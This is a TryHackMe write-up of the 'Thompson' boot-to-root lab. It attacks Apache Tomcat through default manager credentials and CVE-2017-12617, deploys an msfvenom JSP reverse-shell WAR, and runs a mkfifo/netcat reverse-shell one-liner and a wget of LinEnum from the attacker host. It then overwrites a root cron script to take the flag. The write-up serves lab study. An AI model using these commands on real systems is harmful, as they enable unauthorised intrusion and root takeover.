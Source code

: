 # Thompson \(L\)

_TryHackMe_ – [**Thompson**](https://tryhackme.com/room/bsidesgtthompson) Write-Up

_topics_: web application security, linux privilege escalation, modifying public exploits, crafting payloads

1. **Plan**
2. **Enumeration**
3. **Local Privilege Escalation \(Exploitation\)**
4. **Root Privilege Escalation**

new tools: autorecon?

tools: firefox browser, terminal, nmapAutomator, dirsearch, msfvenom, netcat, LinEnum

## 1\) Plan

Not much info given about this. Boot2root for FIT and bsides guatemala CTF.

## 2\) Enumeration

following `./nmapAutomator.sh <ip> Basic`

PORT STATE SERVICE VERSION

**22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 \(Ubuntu Linux; protocol 2.0\)**

**8009/tcp open ajp13 Apache Jserv \(Protocol v1.3\)**

**8080/tcp open http Apache Tomcat 8.5.5**

`python3 dirsearch.py -u http://10.10.147.83:8080/ -e php`

\[01:24:42\] 200 - 3KB - /build.xml

\[01:24:51\] 200 - 16KB - /docs/

\[01:24:53\] 200 - 1KsB - /examples/

\[01:24:58\] 401 - 2KB - /host-manager/html

\[01:25:00\] 200 - 11KB - /index.jsp

\[01:25:06\] 401 - 2KB - /manager/html/

It appears that this machine has 3 ports \(22 ssh, 8009 ajp13, 8080 http\) open and we have access to 6 subdomains \(/build, /docs, /examples, /index, /host-manager, /manager\)

Inspecting /host-manager_/_html reveals a login page. Escaping the login or entering nothing prompts a 401 unauthorized. The 401 suggests default creds as tomcat:s3cret which apparently are accepted by the site.

This does not reveal much sensitive information at first glance. Examining searchsploit for Apache Tomcat exploits, _ss Apache Tomcat 8.5_, reveals **CVE-2017-12617**.

## 3\) Local Privilege Escalation \(Exploitation\)

**CVE-2017-12617**, a JSP \(JavaServer Pages enables you to write dynamic, data-driven pages for your Java web applications.\) Upload Bypass/**RCE**. Uploading the exploit located at **/usr/share/exploitdb/exploits/jsp/webapps/42966.py** with `python /usr/share/exploitdb/exploits/jsp/webapps/42966.py -u http://10.10.147.83:8080` returns that it is not vulerable to CVE-2017-12617. We know that because **it is running a version listed as vulnerable with the CVE details**, it must be vulerable and this particular script may not be working.

Further investigation of the description of the CVE states the following important information, “_**it was possible to upload a JSP file to the server via a specially crafted request. This JSP could then be requested and any code it contained would be executed by the server**_.” This means that we specifically need a a jsp reverse shell and we need to upload it to the server somehow. Checking back to /host-manager shows no location to upload a file. However, navigating to /manager_/_html reveals a place to upload files.

We can craft a jsp reverse shell with msfvenom \(which is allowed on the exam\). `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.224.180 LPORT=4444 -f war > shell2.war && cp shell2.war /home/kali`. Uploading shell2.war \(.war files are Web Application ARchive files used to distribute jsp files to Java applications\) to the server, deploying it, navigating to it and clicking on it \(must have nc ready to catch\) enables a low privilege shell. We can retrieve the user.txt and even send a reverse shell back to the attacker machine.`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.224.180 4445 >/tmp/f`

## 4\) Root Privilege Escalation

Using wget to run LinEnum \(cd _tmp, wget http://&lt;attackerIp&gt;_/LinEnum.sh, chmod 777\) reveals some interesting things.

![](.gitbook/assets/0%20%281%29.png)

This sticks out to me immediately as most custom cronjobs are attack vectors towards root privilege. Listing the output for id.sh:

 _**\#!/bin/bash**_

_**id &gt; test.txt**_

test.txt:

_**uid=0\(root\) gid=0\(root\) groups=0\(root\)**_

this means that the test.txt file contains the id command output, while id.sh is a batch file and is run constantly run by **root** \(per /etc/crontab from LinEnum\). We can retrieve the flag from the root user by overwriting id.sh with `echo 'cp /root/root.txt /home/jack/root.txt' > id.sh`, ls to check and _cat root.txt_ to confirm we can view the root flag.

